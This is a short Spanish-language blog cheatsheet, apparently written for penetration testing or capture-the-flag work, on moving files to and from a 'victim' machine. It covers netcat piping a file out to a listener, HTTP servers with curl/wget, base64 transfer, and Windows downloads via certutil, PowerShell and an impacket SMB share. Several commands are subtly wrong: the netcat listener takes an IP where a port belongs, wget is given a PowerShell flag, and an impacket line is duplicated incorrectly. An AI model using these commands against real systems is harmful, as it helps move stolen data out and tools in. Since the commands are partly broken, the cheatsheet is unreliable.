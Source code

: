 ```yaml
---
title: Cheatsheet para pasar archivos en bash
---
```

El propio nombre dice de lo que va este post: Como pasarse archivos entre máquinas.

### [](https://viksant.hashnode.dev/cheatsheet-pasar-archivos#heading-netcat "Permalink")Netcat

``` bash
# Maquina victima
nc <Local_ip> <port> < file
# En local
nc -lvp <IP> > file
```
-------

### [](https://viksant.hashnode.dev/cheatsheet-pasar-archivos#heading-http "Permalink")Http

``` python
# Python
# En local: 
python -m http.server 
# En remoto:
curl/wget IP:Puerto/archivo # Usar -o si se usa curl

# Apache
# En local:
cp archivo.txt /var/www/html
# En remoto
curl/wget IP:Puerto/archivo # Usar -o si se usa curl

#Local
python -m http.server 80
# En remoto
wget <ip>/<archivo>
```
-------
#python 
### [](https://viksant.hashnode.dev/cheatsheet-pasar-archivos#heading-base64 "Permalink")Base64


``` bash
# Pasar el archivo a base64:
cat <file> | base64
# Lo pegamos en la maquina victima:
echo "texto_base_64" | base64 -d > <file># Para guardarlo dentro de un archivo
```
-------

### [](https://viksant.hashnode.dev/cheatsheet-pasar-archivos#heading-windows "Permalink")Windows

``` 
# Primero creo un sv http con python y luego:
certutil.exe -f -urlcache -split http://<IP>/<file>

# Con servidor python en local y esto en remoto:
IWR -uri http://<ip>/<file> -OutFile <file_name>

# Otras opciones:
    # 1
powershell.exe -command iwr -Uri http://<ip>/<file> -OutFile <destino_output_file>
    # 2
powershell.exe iwr -uri http://<ip>/<file> -o <output_dest>

# Con curl y wget
curl http://ip/file -o <output>
wget http://ip/file -OutFile <output>

# Powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://ip/file', '<output>')

# Servidor SMB
    # Primero te montas una shared folder con impacket-smb
impacket-smbserver share $(pwd) -smb2support
    # Y luego te lo descargas
impacket-smbserver share <file_path> -smb2support
copy \\ip\share\<file>
```